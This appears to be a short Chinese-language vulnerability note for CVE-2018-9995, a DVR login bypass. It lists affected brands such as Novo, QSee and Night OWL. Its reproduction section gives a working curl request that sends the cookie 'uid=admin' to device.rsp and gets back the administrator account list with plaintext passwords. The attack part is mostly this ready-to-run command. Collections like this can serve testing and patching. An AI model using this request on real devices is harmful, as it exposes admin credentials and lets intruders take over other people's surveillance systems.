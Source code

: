 # DVR-登录绕过漏洞-CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

> [!NOTE]
>
> Novo
>
> CeNova
>
> QSee
>
> Pulnix
>
> XVR 5 in 1 (title: "XVR Login")
>
> Securus, - Security. Never Compromise !! -
>
> Night OWL
>
> DVR Login
>
> HVR Login
>
> MDVR Login

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![](DVR-登录绕过漏洞-CVE-2018-9995.assets/16273636351898072.jpg)